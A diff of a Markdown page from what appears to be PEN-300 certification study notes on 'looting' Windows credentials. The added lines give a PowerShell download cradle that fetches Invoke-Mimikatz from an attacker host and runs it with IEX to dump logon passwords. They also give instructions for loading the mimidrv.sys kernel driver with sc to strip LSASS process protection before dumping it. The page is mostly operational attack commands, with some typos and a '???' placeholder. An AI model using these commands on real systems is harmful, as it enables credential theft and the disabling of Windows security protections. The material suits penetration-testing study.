

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -85,7 +85,16 @@ To dump TGT and TGS:
 ```
 (If you want to be stealthier, you can use [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)).
 
-2nd method(using [MiniDump.cs](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/MiniDump.cs)):
+2nd method(using [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)):
+
+```
+1. PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
+2. PS C:\Windows\system32> Invoke-Mimikatz -Command "`"sekurlsa::logonpasswords`""
+
+(Alternatively, we can append this line: Invoke-Mimikatz -Command "sekurlsa::logonpasswords"  at the end of the Invoke-Mimikatz.ps1 script, so that when you use the IEX sekurlsa::logonpasswords gets automatically executed and you don't have to fight with double quotes and backticks).
+```
+
+3rd method(using [MiniDump.cs](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/MiniDump.cs)):
 
 Using this method we will create a dump file, which is a snapshot of a given process.
 
@@ -98,3 +107,18 @@ C:\minidump.exe c:\windows\tasks\lsass.dmp
 #From a mimikatz shell(note that this doesn't require debug privileges)
 1. sekurlsa::minidump lsass.dmp
 2. sekurlsa::logonpasswords
+```
+
+When the popularity of cached credential retrieving raised, Microsoft introduced 2 secuirty measures: LSA Protection and Windows Defender Credential Guard. The LSA protection added an additional process
+security layer, the Process Protected Light(PPL), which is placed on top of the highest integrity level. This means that SYSTEM level privileges aren't enough to dump the LSASS.
+
+To solve this problem mimikatz relased the [mimidrv.sys](releases/tag/2.2.0-20220919)(go to releases and mimidrv.sys is located inside the .zip/.7z). To load this driver we must have this ??? additional privilege.
+
+```
+C:\Windows\system32> sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
+
+C:\Windows\system32> sc start mimidrv
+
+#From a mimikatz shell
+1. !processprotect /process:lsass.exe /remove  -> Afterwards LSA is disabled, meaning that we can dump the LSASS using the method we best like
+```
````
